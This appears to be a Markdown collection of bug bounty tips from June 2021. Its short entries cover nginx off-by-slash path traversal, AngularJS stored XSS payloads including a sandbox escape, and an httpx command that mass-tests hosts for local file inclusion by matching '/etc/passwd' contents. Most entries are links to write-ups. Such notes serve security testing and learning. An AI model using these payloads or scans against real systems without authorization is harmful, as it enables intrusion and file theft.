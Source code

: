 # Bug Bounty Tips - June 2021

## Stumble upon 404 nginx servers? make sure to test for off-by-slash vulnerabilities

```text
http://example[.]com/index.php -> File not found
http://example[.].com/assets../index.php -> source code
```
**Try with img, js, assets, vendors, media as the folder name**
***Source: https://twitter.com/naglinagli/status/1401259603845918722?s=20***
***Reference: https://portswigger.net/bappstore/a5fdd2cdffa6410eb530de5a4c294d3a***

## Identify AD attack paths breaking the tier model using BloodHound
Github: https://github.com/improsec/ImproHound
Blogpost: https://improsec.com/tech-blog/improhound-identify-ad-tiering-violations
Demo video: https://youtu.be/zQ01tvTr6H0

## Exploiting outdated Apache Airflow instances
- https://ian.sh/airflow

## Quick test all the hosts for LFI via [@pdiscoveryio](https://github.com/projectdiscovery) - [httpx](https://github.com/projectdiscovery/httpx)

- https://github.com/hussein98d/LFI-files

```sh
httpx -l allhosts -paths /root/list.txt -threads 100 -random-agent -x GET,POST,PUT -title -tech-detect -status-code  -follow-redirects -title -mc 200 -match-regex "root:[x*]:0:0:"
```

![img](https://pbs.twimg.com/media/E3ykkLOX0AUI1kA?format=jpg&name=large)

## AngularJS stored XSS
```text
1. Usual payload in product name as '"><img src onerror=alert(1)>x{{7*7}}
2. Output as '">x49
```
### Final payload
```js
{{a=toString().constructor.prototype;a.charAt=a.trim;$eval('a,alert(1),a')}}
```
***Source: https://twitter.com/4z1zu/status/1376139627220725760?s=20***

## File Upload Checklist
![img](https://pbs.twimg.com/media/ErhbCBAW8AElD5G?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbC7EXUAAPfqO?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbDodWMAARW98?format=png&name=large)
![img](https://pbs.twimg.com/media/ErhbEceXMAAZeLF?format=png&name=large)

## Intigriti May XSS Challenge Solution
- https://infosecwriteups.com/solution-and-explanation-of-tips-for-intigritis-0521-xss-challenge-by-grumpinout-7544bad98e59

## Host Header Injection Writeups
- https://link.medium.com/w8U0Cmz6bhb
- https://link.medium.com/yfM33zA6bhb
- https://sites.google.com/site/testsitehacking/10k-host-header
- https://link.medium.com/uRmqVxT6bhb
- https://link.medium.com/KzO5UK06bhb
- https://link.medium.com/jZ8Gd816bhb
- https://link.medium.com/1DbUUj46bhb
- https://link.medium.com/hoXVNp56bhb
- https://link.medium.com/2n61hn66bhb
- https://link.medium.com/rQhotO76bhb

## CVE-2020-11110 Grafana Stored XSS
- https://ctf-writeup.revers3c.com/challenges/web/CVE-2020-11110/index.html
